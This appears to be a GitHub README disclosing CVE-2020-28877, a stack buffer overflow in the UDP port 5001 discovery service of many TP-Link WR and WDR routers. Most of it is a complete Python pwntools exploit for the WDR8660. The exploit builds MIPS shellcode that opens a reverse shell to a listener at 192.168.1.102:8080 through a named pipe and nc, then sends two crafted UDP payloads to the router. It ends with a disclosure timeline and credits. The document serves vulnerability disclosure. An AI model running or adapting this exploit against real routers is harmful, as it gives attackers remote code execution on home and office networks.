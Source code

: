 # TP-Link-poc

TP-Link router have a stack overflow in devDiscoverHandle server.

Any user can get remote code execution through LAN, this vulnerability currently affects latest WR、WDR series, including WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability description

This vulnerability happen when  devDiscoverHandle  receive data by using `recvfrom` from `udp port 5001`.Then enter the `protocol_handler`->`parse_advertisement_frame`->`copy_msg_element`.In the function of `copy_msg_element` we can control `iParm1` and `iParm3` that It lead to a stack buffer overflow to execute arbitrary code.

![](./1.png)

## Poc

Refer to this video: [poc_video.mkv](./poc_video.mkv)

**poc&exp**

It's for WDR8660
```
import sys
import struct
import requests
from pwn import *
from time import sleep

context.arch='mips'
context.endian='little'

udp_data_addr = 0x0419680

def fix_checksum(data):
    checksum = 0
    for off in range(0, len(data), 2):
        checksum += u16(data[off:off+2])
    checksum &= 0xffffffff
    while True:
        if (checksum >> 0x10) == 0:
            break
        checksum = (checksum & 0xffff) + (checksum >> 0x10)
    checksum &= 0xffff
    return p16(0xffff - checksum)

context.arch='mips'
context.endian='little'

magic = b'\x01\x02\x0e\x00\xe1\x2b\x83\xc7'
shellcode = asm(shellcraft.nop()*0x8) + asm(shellcraft.execve(path = "/bin/sh", argv=['sh', '-c', 'mknod /tmp/a p; nc 192.168.1.102 8080 0</tmp/a | /bin/sh 1>/tmp/a 2>&1;']))

gadget1 = p32(udp_data_addr + 0x300)
pad2 = b'shellcode'.ljust(600-0x10, b'\x00') + gadget1

context.endian='big'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2

checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload2 = magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp

pad2 = b'helo'
tmp = b'\x00\x05' + p16(len(pad2)) + pad2
checksum = fix_checksum(magic + p16(len(tmp)) + tmp)
payload1 = (magic + checksum + p16(len(tmp)) + b'\x00\x00' + tmp).ljust(0x300, b'\x00') + shellcode

assert(len(payload1) < 0x5c0)
assert(len(payload2) < 0x300)

print("[*] Sending payload1")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload1,('192.168.1.1',5001))
udp.close()

sys.stdout.write('[*] Waiting for 20 seconds')
i = 1
while i <= 20:
    sleep(1)
    sys.stdout.write('.')
    sys.stdout.flush()
    i += 1

print('')
print("[*] Sending payload2")
udp=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
udp.sendto(payload2,('192.168.1.1',5001))
udp.close()
sleep(1)
print("[+] Success")

```

## Timeline
2020.11.15 report to CVE and TP-Link

2020.11.21 assign CVE-2020-28877

## Acknowledgment 

Credit to [@peanuts](https://github.com/peanuts62), [@leonW7](https://github.com/leonW7) and [@cpegg](https://github.com/cpeggg) from Technology Research Institute of Legendsec at Qi'anxin Group.

